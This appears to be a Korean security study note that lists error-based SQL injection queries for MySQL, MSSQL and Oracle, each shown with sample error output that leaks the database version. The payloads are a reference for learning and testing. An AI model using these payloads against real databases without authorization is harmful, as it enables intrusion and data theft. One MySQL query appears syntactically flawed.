 <br/>

* DBMS별로 Error based SQL Injection을 위해 사용하는 주요 쿼리문
    - MySQL
        ```sql
        SELECT updatexml(null, concat(0x0a, version()), null);
        # ERROR 1105 (HY000): XPATH syntax error: '5.7.29-0ubuntu0.16.04.1-log'

        SELECT extractvalue(1, concat(0x3a, version()));
        # ERROR 1105 (HY000): XPATH syntax error: ':5.7.29-0ubuntu0.16.04.1-log'

        SELECT COUNT(*), CONCAT(SELECT version()), 0x3a, FLOOR(RAND(0)*2) x FROM information_schema.tables GROUP BY x;
        # ERROR 1062 (23000): Duplicate entry '5.7.29-0ubuntu0.16.04.1-log:1' for key '<group_key>'
        ```
    - MSSQL
        ```sql
        SELECT convert(int,@@version);
        SELECT cast((SELECT @@version) as int);
        /*
        Conversion failed when converting the nvarchar value 'Microsoft SQL Server 2014 - 12.0.2000.8 (Intel X86) 
            Feb 20 2014 19:20:46 
            Copyright (c) Microsoft Corporation
            Express Edition on Windows NT 6.3 <X64> (Build 9600: ) (WOW64) (Hypervisor)
        ' to data type int.
        */
        ```
    - Oracle
        ```sql
        SELECT CTXSYS.DRITHSX.SN(user,(select banner from v$version where rownum=1)) FROM dual;
        /*
        ORA-20000: Oracle Text error:
        DRG-11701: thesaurus Oracle Database 18c Express Edition Release 18.0.0.0.0 - Production does not exist
        ORA-06512: at "CTXSYS.DRUE", line 183
        ORA-06512: at "CTXSYS.DRITHSX", line 555
        ORA-06512: at line 1
        */

        SELECT ordsys.ord_dicom.getmappingxpath((select banner from v$version where rownum=1),user,user) FROM dual;
        /*
        ORA-53044: invalid tag: ORACLE DATABASE 18C EXPRESS EDITION RELEASE 18.0.0.0.0 - PRODUCTION
        ORA-06512: at "ORDSYS.ORDERROR", line 5
        ORA-06512: at "ORDSYS.ORD_DICOM_ADMIN_PRV", line 1390
        ORA-06512: at "ORDSYS.ORD_DICOM_ADMIN_PRV", line 475
        ORA-06512: at "ORDSYS.ORD_DICOM_ADMIN_PRV", line 8075
        ORA-06512: at "ORDSYS.ORD_DICOM", line 756
        ORA-06512: at line 1
        */
        ```
